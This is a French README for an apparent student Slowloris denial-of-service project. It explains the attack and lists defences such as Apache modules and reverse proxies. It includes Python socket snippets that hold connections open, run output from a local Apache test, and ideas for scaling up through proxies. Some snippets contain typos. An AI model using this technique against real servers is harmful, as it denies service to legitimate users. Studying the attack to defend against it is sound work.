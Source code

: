 # Python pour la securite
  - ### [1. Introduction](#1-Introduction)
  - ### [2. Fonctionnement](#2-Fonctionnement)
  - ### [3. Resultat](#3-Resultat)
  - ### [4. Difficultees rencontrees](#4-Difficultees-rencontrees)
  - ### [5. Ameliorations](#5-Ameliorations)
  - ### [6. Conclustion](#6-Conclusion)

---
## 1. Introduction

 L'attaque slow loris permet de faire un ddos sur un serveur en se servant que d'une seule machine. 
 Slowloris essaie de garder le maximum de connexions ouvertes avec le webserver cible et essaie de les garder ouvertes aussi longtemps que possible. 
 Dès que le slowloris a ouvert une connection il va garder la garder ouverte en envoyant des requêtes incomplètes qu'il va compléter lentement au fur et à mesure mais ne les finira jamais. 
 Les serveurs affectés verront leur nombre maximum de connections atteint et peuvent refuser les nouvelles connections d'utilisateurs.
Les serveurs majoritairement touchés par l'attaque slowloris sont:
- Apache 1.x and 2.x
- dhttpd
- Flask

Il existe des modules pour apache qui permetent de réduire la chance d'une attaque slowloris tel que: 
- mod_limitipconn
- mod_qos, mod_evasive
- mod security
- mod_noloris
- mod_antiloris

Il existe d'autres méthodes pour se protéger tel qu'installer un:
- reverse proxy
- firewall
- load balancer
- content switches

Si aucune de ces solutions n'est envisageable il est toujours possible de placer son webserver derrière un nginx ou lighthttpd qui ne sont pas affectés par cette attaque.

---
## 2. Fonctionnement
Afin de faire fonctionner ce programme, il est necessaire d'installer certaines dependances. Les commandes a executer pour avoir un environnement d'execution sont les suivantes :
 * `virtualenv env`
 * `source env/bin/activate`
 * `pip install -r requirements.txt`

 Ensuite il est possible de choisir certaines options:
 - a: Host to perform attack on, default localhost
 - p: Port of the server, default = 80
 - s: Max socket to use
 - d: Debug mode


 Dans un premier temps, il est necessaire de recuperer le type de serveur que l'on souhaite attaquer : 
 * Par exemple, un serveur apache 1.x/2.x permettra une attaque optimal.
 * A contrario, attaquer un WebServeur tournant avec le framework NodeJS a partir de la version 8 est inutile

 Pour recuper le type de serveur, on envoie une requete get : </br>
 * `sock.send("GET / HTTP/1.1\r\n\r\n".encode("ascii"))`</br>

Puis on analyse le retour </br>
*  `HTTP/1.1 400 Bad Request
Date: Wed, 10 Jul 2019 16:18:53 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1
`

Pour l'initialisation des sockets on envoie trois requêtes:
```Python
s.send("GET /?{} HTTP/1.1\r\n".format(random.randint(0, 2000).encode("utf-8"))
s.send("User-Agent: {}\r\n".format(ua.USER_AGENT[random.randin(0,29)]).encode("utf-8"))
s.send("{}\r\n".format("Accept-language: en-US,en,q=0.5".encode("utf-8"))
```
Dans l'ordre:
- La première initialise la connection
- La deuxième envoie le user agent utilisé choisi aléatoirement dans la pool des user agents.
- La troisième dit quelles sont les langues acceptées.

-> A l'initialisation le slowloris va essayer d'initier autant de connections que l'on a demandé.

Il va ensuite les garder en vie en les complétant toutes les 15 secondes avec:
```Python
s.send("X-a: {}\r\n".format(random.randint(1, 5000)).encode("utf-8"))
```
Il va ensuite essayer à nouveau d'ouvrir des connections jusqu'à atteindre la limite que l'on a fixé.
 ```Python
 for _ in range(self.target_info.sockets_number - len(self.sockets_list)):
    try:
        s = self.init_socks()
        if s:
            self.sockets_list.append(s)
```
Par la suite le slowloris va calculer la latence en faisant une requête dans un thread à part.

```Python
response = requests.get(self.url).elapsed.total_seconds()
```
La request fait un get sur l'host rentree par l'utilisateur et recupere le temps entre l'envoie et la reponse de la requete.


---

## 3. Resultat
Les resultat ci dessous ont ete effectue sur un serveur Apache avec la configuration initiale.</br>
Le programme fut lance avec la commande suivante : `python src/main.py -a 127.0.0.1 -s 1000`


Dans un premier temps la console nous affiche que l'on se trouvre sur un seveur Apache, ce qui est parfait pour notre attaque : 
> `[127.0.0.1] server running with Apache, best configuartion for this attack`

Dans un second temps, on affiche la latence initial :
> `[Latency] -- 0.002142`

On remarque donc que le temps de latence est relativement faible. </br></br>
Ensuite on initialise le maximum de socket 
> `279 connections 1000 initialised`

On remarque ici que l'on a reussi a initialiser seulement 279 sockets sur les 1000 prevu, on essaie maintenant de les garder ouvertes le plus longtemps possible.

Apres 15 secondes, on essaie d'en recreer afin d'atteindre les 1000
> `try recreating sockets`

Apres 5 minutes, on peut voir que l'on a 408 sockets qui sont ouvertes
> ` 408 connections 1000 initialised `

On remarque aussi une latence de 15 secondes, preuve que le deni de service fonctionne.
> `[Latency] -- 15.80608   `

Apres 10 minutes, on stop le programme, on peut donc voir une latence moyenne de 14.7 secondes.
> `Average latency = 14.702567199999999`


---

[Just a moment...](https://cdn1.imggmi.com/uploads/2019/7/10/cca68682fe9aa44435fa77cb9439f596-full.png)
On peut voir en haut le spinner qui tourne et en bas la requête connexion

Egalement quand on essaie de lancer un autre slowloris sur le même serveur alors qu'il y a déjà un slowloris qui tourne celui-ci ne marche pas car il n'arrive pas à établir une nouvelle connection.

```Bash
(env) ➜  slowAttack git:(master) ✗ python src/main.py -a 127.0.0.1
19:30:51 - Slow Loris Attack Started
19:30:54 - No Webserver detected, please verify your target adresse
```


## 4. Difficultees rencontrees

La principale difficultees fut d'ordre materiel, en essayant l'attaque sur un serveur distant, la box internet ma "banni", il etait impossible d'acceder a aucun site web en dehors, impossible d'utiliser un dns.

La seconde difficultee fut de comprendre que les serveur nodes n'etaient pas affectees. Le programme semblait fonctionel mais aucun ralentissement ne fut observé. Ensuite installer un serveur apache est un defi de taille.

Hormis cela, aucune difficultée majeures ne fut rencontrées.


## 5. Ameliorations
Les améliorations possibles sont nombreuses:
- Détection automatique du serveur et optimisation des paramètres.
- Détection automatique du timeout serveur pour les requêtes.
- Détection du nombre de connection maximum du serveur pour pouvoir choisir le niveau de ddos que l'on veut (un peu, beaucoup, moyen)
- Utilisation de proxy pour permettre d'ouvrir un plus grand nombre de connections quand il y a un nombre limité par utilisateur.

## 6. Conclusion
>L'attaque du slowloris est une attaque très intéressante si jamais le serveur web est vulnérable à cette attaque car elle permet à un seul ordinateur de facilement ddos un serveur.
Cependant il s'avère qui est facile de se protéger face à ses attaques en implémentant quelques règles: nombres de socket par utilisateur limités, firewall, reverse proxy, etc.
# SlowLorrisDDOS
# SlowLorrisDDOS
